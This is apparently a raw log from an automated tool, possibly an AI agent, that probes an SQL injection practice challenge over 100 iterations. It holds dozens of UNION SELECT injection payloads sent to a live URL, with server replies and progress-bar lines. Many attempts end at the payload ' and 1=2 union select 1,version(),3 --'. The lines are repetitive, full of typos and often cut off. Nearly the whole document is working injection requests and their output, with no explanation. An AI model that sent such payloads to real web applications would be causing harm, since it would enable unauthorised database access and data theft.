https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
 ' and 1=2 unio

  5%|▌         | 5/100 [04:54<1:56:23, 73.51s/it]

Correct exploratory user of the challenge. I return 1
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union sele

  6%|▌         | 6/100 [06:57<2:21:29, 90.31s/it]

Correct exploratory user of the challenge. I return 1
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
 'union select 1--
https://zixem.alterv

  7%|▋         | 7/100 [08:17<2:14:49, 86.99s/it]

Correct exploratory version of the escape. I return 2
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  8%|▊         | 8/100 [12:13<3:26:03, 134.38s/it]

Correct exploratory user of the challenge. I return 1
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax erro

  9%|▉         | 9/100 [13:44<3:03:07, 120.74s/it]

Correct exploratory user of the challenge. I return 1
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select

 10%|█         | 10/100 [14:54<2:37:45, 105.17s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
 'union select 1--
https://

 11%|█         | 11/100 [17:20<2:54:12, 117.44s/it]

Correct exploratory user of the challenge. I return 1
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


 12%|█▏        | 12/100 [17:22<2:01:08, 82.59s/it] 

Correct exploratory user of the challenge. I return 1
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1

 13%|█▎        | 13/100 [18:17<1:47:29, 74.13s/it]

Correct exploratory user of the challenge. I return 1
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --

 14%|█▍        | 14/100 [18:31<1:20:14, 55.98s/it]

Correct exploratory version of the escape. I return 2
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 

 15%|█▌        | 15/100 [19:05<1:09:58, 49.40s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 16%|█▌        | 16/100 [19:06<48:38, 34.75s/it]  

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 17%|█▋        | 17/100 [19:07<33:57, 24.55s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 18%|█▊        | 18/100 [19:08<23:46, 17.40s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 19%|█▉        | 19/100 [19:08<16:43, 12.39s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 20%|██        | 20/100 [19:09<11:57,  8.96s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 21%|██        | 21/100 [19:10<08:33,  6.50s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 22%|██▏       | 22/100 [19:11<06:14,  4.80s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 23%|██▎       | 23/100 [19:12<04:38,  3.62s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Serve

 24%|██▍       | 24/100 [20:59<43:47, 34.58s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 25%|██▌       | 25/100 [21:00<30:37, 24.51s/it]

Correct exploratory version of the escape. I return 2
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select

 26%|██▌       | 26/100 [21:05<23:15, 18.86s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 27%|██▋       | 27/100 [21:06<16:19, 13.42s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syn

 28%|██▊       | 28/100 [24:46<1:30:28, 75.40s/it]

Correct exploratory user of the challenge. I return 1
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union

 29%|██▉       | 29/100 [24:57<1:06:16, 56.00s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 30%|███       | 30/100 [24:58<46:02, 39.47s/it]  

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 31%|███       | 31/100 [24:58<32:03, 27.87s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 32%|███▏      | 32/100 [24:59<22:26, 19.79s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 33%|███▎      | 33/100 [25:00<15:44, 14.10s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,

 34%|███▍      | 34/100 [25:51<27:29, 25.00s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1

 35%|███▌      | 35/100 [28:04<1:02:15, 57.47s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 36%|███▌      | 36/100 [28:05<43:10, 40.48s/it]  

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 37%|███▋      | 37/100 [28:05<29:52, 28.45s/it]

Correct exploratory version of the escape. I return 2
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
 'union select 1--
http

 38%|███▊      | 38/100 [28:20<25:14, 24.43s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 39%|███▉      | 39/100 [28:21<17:40, 17.39s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 40%|████      | 40/100 [28:22<12:26, 12.43s/it]

Correct exploratory version of the escape. I return 2
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--

 41%|████      | 41/100 [29:20<25:48, 26.24s/it]

Correct exploratory user of the challenge. I return 1
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


 42%|████▏     | 42/100 [29:23<18:28, 19.11s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 43%|████▎     | 43/100 [29:24<12:55, 13.60s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 44%|████▍     | 44/100 [29:24<09:05,  9.74s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 45%|████▌     | 45/100 [29:25<06:29,  7.08s/it]

Correct exploratory version of the escape. I return 2
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,vers

 46%|████▌     | 46/100 [29:31<06:07,  6.81s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 47%|████▋     | 47/100 [29:32<04:26,  5.03s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 48%|████▊     | 48/100 [29:33<03:17,  3.79s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 49%|████▉     | 49/100 [29:34<02:29,  2.92s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 50%|█████     | 50/100 [29:35<01:55,  2.31s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 51%|█████     | 51/100 [29:36<01:33,  1.90s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 52%|█████▏    | 52/100 [29:37<01:17,  1.61s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.p

 53%|█████▎    | 53/100 [29:53<04:41,  5.98s/it]

Correct exploratory user of the challenge. I return 1
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union selec

 54%|█████▍    | 54/100 [30:41<14:16, 18.62s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 55%|█████▌    | 55/100 [30:42<09:58, 13.31s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 56%|█████▌    | 56/100 [30:43<07:04,  9.65s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 57%|█████▋    | 57/100 [30:44<05:01,  7.02s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax 

 58%|█████▊    | 58/100 [31:42<15:32, 22.20s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 59%|█████▉    | 59/100 [31:43<10:49, 15.84s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,user

 60%|██████    | 60/100 [32:06<12:03, 18.09s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 61%|██████    | 61/100 [32:08<08:35, 13.22s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
